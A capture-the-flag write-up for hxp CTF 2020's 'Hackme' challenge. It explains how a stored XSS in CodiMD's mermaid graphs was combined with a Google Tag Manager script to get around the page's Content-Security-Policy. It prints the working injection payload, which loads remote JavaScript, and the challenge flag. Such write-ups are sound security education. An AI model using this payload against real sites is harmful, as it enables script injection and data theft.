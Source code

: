 Hackme: Web hard - hxpctf 2020
===
This year I played hxp ctf w/ [mHACKeroni](https://mhackeroni.it)
## The challenge
The challenge is a [CodiMD](https://github.com/hackmdio/codimd) docker with report uri.
In the challenge, a note called "the-flag" exists and it contents, obv, the fl4g. This challenge is very very intresting, I loved it but the Dockerfile is really B1GG, with my orrible network it took ~15 minutes for build ahahah. 
(Solves: 15/1177, Fixed by CodiMD Team after issue [#1630](https://github.com/hackmdio/codimd/issues/1630))
## The bug
This challenge, obviously, has an XSS vuln mlmlmlml!\
Oh sh1t there is a CSP. I took a couple of minutes to analyze it
```
Content-Security-Policy: default-src 'self';script-src 'self' vimeo.com https://gist.github.com www.slideshare.net https://query.yahooapis.com 'unsafe-eval' https://disqus.com https://*.disqus.com https://*.disquscdn.com https://www.google-analytics.com 'nonce-90dfe8a7-eaa5-41a5-a9f2-7d36a6db7ce3' 'sha256-81acLZNZISnyGYZrSuoYhpzwDTTxi7vC1YM4uNxqWaM=';img-src * data:;style-src 'self' 'unsafe-inline' https://github.githubassets.com https://*.disquscdn.com;font-src 'self' data: https://public.slidesharecdn.com https://*.disquscdn.com;object-src *;media-src *;child-src *;connect-src *
```  
Eureka: `https://www.google-analytics.com` is enable.\
But first I need a method to include some script from google analytics :(\
With some osint I find a stored xss bug in [mermeid graph]( https://github.com/mermaid-js/mermaid/issues/869). 
## IT'S TIME TO EXPLOIT
With google analytics there is a service called "Google Tag Manager". With it I can create cusotm tag and custom javascript code.

First of all I write an XSS payload and create a variable in Google Tag Manager with this paylod.

![CustomJavascript](images/custom_javascript.png)

Secondly I create a custom Google Universal Analytics Tag ang Google Analytics Settigs that took the custom variable and do something at the page load event

![Gas](images/gas.png)

![Gaua](images/gaua.png)

Finally I write a new note that trigger the xss bug:
```
```mermaid
graph TD
B --> C{<script src=https://www.google-analytics.com/gtm/js?id=GTM-MLQBR25 ></script>}
```

And I report my note.

The flag: 
`
hxp{Yo dawg, I heard you like XSS, so I put some DOM injection in your script injection so you can inject scripts while you inject HTML while you inject scripts! Any questions?}
`.

Thanks a lot to orgs for the idea and for the other challenges.
